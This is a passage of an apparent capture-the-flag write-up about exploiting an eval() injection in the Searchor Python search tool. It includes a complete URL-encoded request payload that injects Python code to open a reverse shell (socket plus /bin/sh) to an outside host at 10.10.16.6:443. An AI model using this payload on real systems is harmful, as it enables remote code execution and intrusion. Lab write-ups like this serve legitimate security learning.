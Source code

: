 Clicking on the searchor link brings us to the github page with the source code. When I saw this, my first thought was to look through the commit history or the pull request history to see if any information about vulnerable code could be found.
![3](assets/3.png)

While searching through the pull request history, I found [this](https://github.com/ArjunSharda/Searchor/pull/130) thread which talks about how the use of the eval function was removed from the application.

Knowing this information means that we should be able to exploit this to get a reverse shell.

## Reverse Shell
In order to exploit the target we will need to perform the following tasks
- Intercept the request sent from the client to the server
- Send the request to the repeater
- Write our payload
- Urlencode segments of the code where eval() and compile() are used

The following is the payload I used to get a reverse shell on the target machine.
```python
engine=Amazon&query=heythere'%2beval(compile('for%20x%20in%20range(1)%3a%5cn%20import%20time%5cn%20import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",443));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'%2c'a'%2c'single'))%2b'
```

The first line and a half in the payload that is required to urlencoded is the following.
```go
+eval(compile('for x in range(1):\n import time\n 
```

For those who dont know, the eval() function evaluates python code and executes it if it valid.
